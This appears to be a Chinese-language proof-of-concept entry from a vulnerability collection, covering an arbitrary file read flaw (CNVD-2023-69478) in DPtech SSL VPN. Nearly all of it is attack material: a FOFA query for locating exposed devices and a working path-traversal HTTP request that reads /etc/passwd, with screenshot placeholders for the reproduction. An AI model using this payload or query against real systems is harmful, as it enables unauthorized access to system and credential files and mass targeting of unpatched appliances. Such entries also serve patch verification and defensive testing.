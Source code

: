 ## 迪普DPTech VPN 任意文件读取 CNVD-2023-69478
杭州迪普科技股份有限公司DPtech SSL VPN存在任意文件读取漏洞，攻击者可利用该漏洞获敏感信息。

## 漏洞影响产品
杭州迪普科技股份有限公司DPtech SSL VPN

## fofa
```
title=="SSL VPN Service" && header="Dptech" || cert="DPtechCa"
```

## poc
```
GET /..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: xxxxxxxxx
Cookie: SSLVPN_lang=1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
se
```
## 漏洞复现
![](../../assets/780475ed2a4b528fe68184a4f665a7d1fe08f3.png)

![](../../assets/7171140331ad9063b8e9a92e8161c325c0b418.png)
